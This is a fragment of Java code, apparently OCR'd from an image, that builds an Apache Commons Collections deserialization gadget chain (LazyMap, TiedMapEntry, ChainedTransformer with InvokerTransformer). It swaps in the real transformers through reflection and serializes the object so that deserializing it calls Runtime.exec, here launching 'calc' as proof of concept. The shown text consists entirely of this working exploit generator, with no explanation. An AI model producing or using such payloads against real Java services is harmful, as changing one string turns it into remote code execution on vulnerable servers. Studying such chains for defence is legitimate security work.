 ```java
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "a");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "b");

        setValue(transformerChain, "iTransformers", transformers);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        return baos.toByteArray();
    }
}
```
